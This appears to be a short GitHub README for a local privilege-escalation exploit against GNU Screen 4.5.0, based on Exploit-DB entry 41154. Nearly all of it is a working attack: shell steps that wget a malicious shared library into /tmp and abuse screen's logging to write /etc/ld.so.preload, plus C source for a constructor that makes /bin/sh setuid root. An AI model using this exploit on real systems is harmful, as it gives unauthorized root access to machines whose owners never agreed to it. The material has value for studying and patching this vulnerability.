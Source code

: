 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154
Based on Screen2Root

Exploit Instructions:
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
libhax.c code (Compiled version available in repo)
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/bin/sh", 0, 0);
    chmod("/bin/sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
